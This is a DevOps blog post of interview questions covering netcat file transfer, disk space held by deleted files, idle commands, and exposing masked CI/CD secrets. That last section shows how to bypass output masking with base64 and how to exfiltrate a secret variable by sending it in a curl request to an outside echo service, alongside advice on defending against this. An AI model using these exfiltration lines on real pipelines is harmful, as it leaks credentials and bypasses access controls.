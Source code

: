 ```yaml
---
title: "DevOps interview questions - Part 2 📓"
date: 2020-01-19T09:35:31-04:00
author: Stefan Caraiman
categories:
  - devops
  - interview-questions
  - linux
  - blog
tags:
  - linux
  - devops
  - interview
  - debugging
classes: wide
header:
  image: "https://www.onlineinterviewquestions.com/storage/categories/June2018/Devops-Interview-Questions.jpg"
toc: true
toc_label: "Interview questions"
toc_icon: "cogs"
---
```


Welcome back to part 2 of the DevOps interview questions blog series. 👋

I won't bore you with any other side details and contexts, so let's get straight into the **questions**


## Copying files between servers without SSH/SCP

This is more of a "thinking outside the box" kind of question, since it's not that widely used in the wild. The only few times when I had come across this was either during other interviews or CTF events, nonetheless it's quite a fun brain teaser.

The most common solution which I came across was by using `nc`. Netcat is a very useful tool available on all unix systems which can come in quite handy.

```console
$ nc -l 2020 > some_binary.bin # On the receiving host
$ nc 192.168.0.10 2020 < some_binary.bin # On the host sending the file
```

Another solution which I saw a colleague use some time ago, was to `base64` encode the file and copy paste the contents of the file to the other server and then decoding the base64 content. Like the good ol' saying, `it ain't stupid if it works` am I right?

## Why is space not being freed from disk after deleting a file?

This question can be asked in a number of ways, like `Why are the df and du commands show different disk usage?` or `I've deleted some files but the amount of free space on the filesystem has not changed.`, but the solution in most cases is the same.

Even if you remove the big pesky log file which was eating away at your storage, the process which was using the said file might still be running and using that file descriptor(remember Part 1 of the blog series).

The solution in this case would be to simply restart/kill the said process, so that the file descriptor handle is gone.

```console
$ lsof +L1 | grep "name-of-delete-log|name-of-the-process"
$ kill -9 ${PROCESS_USING_THE_BIG_FILE}
```

Another solution might be truncating the file via the `proc` file system. Let's pretend the PID number is `2020` and the `fd` is `19`. 

```console
$ echo > /proc/2020/fd/19
```

Thus we do not require a restart of the process, but beware that this solution might have adverse effects on the running process, so make sure this is applicable in your case.

## Ways of doing nothing forever?

What ways can you think of, of making a script do nothing forever?

### `sleep`-ing to infinity

```console
$ sleep infinity
```

The sleep command allows and honors a non-integer number of seconds to sleep in any form acceptable by `strtod`, which can also be `infinity`.

### `tail`-ing of `/dev/null`

```console
$ tail -f /dev/null
```

I think this one is pretty clever, it will simply keep the `stdout` open, but not write anything to it, unlike something like `yes` which also theoretically runs for infinity, but writes to `stdout`, thus not being such an optimal solution of really doing nothing.

### Using the `pause` system call

```pause() causes the calling process (or thread) to sleep until a signal is delivered``` according to the manual pages, which is exactly what we want to achieve. 
The shortest and most elegant version of using the `pause` system call which I found would be by calling it from Perl.

```console
$ perl -MPOSIX -e pause
```

## Ways of exposing a secret environment variable from CI/CD pipeline?

There will be times in the career of any engineer where they will get their hands on a CI/CD system, and they might not have the necessary access to see secret environment variables, such as the user and password to a registry.

This in itself is not an issue, until the moment when you realize that those variables are not setup up correctly on multiple pipelines and you are currently blocked due to the fact that you can't set them up or even see them, since most CI/CD system will mask(or should mask, if it does not do this, maybe you should rethink about why you are using that system) such variables from showing in the STDOUT/output of the pipeline.

For the sake of the question, we will presume we can modify the CI/CD pipeline.

P.S: I'm not advocating that any of these are a secure or moral way of getting around the problem and highlighting some security risks, which you should consider on hardening.

### `echo` the variable in `base64`

```console
echo $MY_SECRET_VAR | base64
```

### curl any endpoint that returns the request back

```
curl -X GET "https://httpbin.org/$MY_SECRET_VAR" -H "accept: application/json"
```

This one might not work due to the fact that the `STDOUT` will contain the secret value, but if you have acccess to the access logs of the endpoint that you are sending the request to, you will be able to see it on that side.

### How can you protect against this?

You should make secret environment variables accessible only on protected branches, so that they cannot be exfiltrated.

If the CI/CD permits, you should also block edit of the pipeline definition.


## Conclusion

I think most of the questions described above can be addresed across different seniorities/positions, since the creativity of the answers and the depth of the understading of the issue, can greatly vary from individual to individual, being of great aid in understading how the other person can think and analyze a problem.

Stay close for part 3 of this blog series and as usual, happy learning!
